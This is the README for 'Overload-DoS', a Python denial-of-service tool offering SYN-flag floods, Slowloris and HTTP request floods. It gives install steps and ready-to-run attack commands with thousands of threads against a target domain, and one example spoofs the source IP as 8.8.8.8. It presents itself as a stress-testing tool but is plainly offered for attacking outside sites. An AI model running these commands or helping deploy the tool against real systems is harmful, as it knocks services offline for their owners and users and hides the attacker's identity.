 # Overload-DoS

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack. You either choose one of the three attack methods or you can choose all three!   
## Getting Started

You will need a few different modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install Overload-Dos

```
git clone https://github.com/codingplanets/Overload-DoS
```
```
cd Overload-DoS
```
```
chmod +x *
```
```
./install-overload
```
## Usages
```
usage: ./Overload-DoS.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./Overload-DoS.py -target www.target.com -syn -threads 5000
```
SLOW/Request/SYN attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request -slow -syn
```
SLOW/Request/SYN spoofed IP attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request -slow -syn -spoof 8.8.8.8
```

## Built With

* [Python 2.7](https://www.python.org/download/releases/2.7/) - The code framework used
* [Requests](http://docs.python-requests.org/en/master/) - Used to send DoS attack
* [Colorama](https://pypi.python.org/pypi/colorama) - Used to generate text color
* [Termcolor](https://pypi.python.org/pypi/termcolor) - Used to generate text color



## Authors

* **Chris Poole**  -  Twitter: [@codingplanets](https://twitter.com/codingplanets)  -  Github: [/codingplanets](https://github.com/codingplanets)  -  Pastebin: [/1337ings](https://pastebin.com/u/1337ings)


## License

This project is licensed under the MIT License

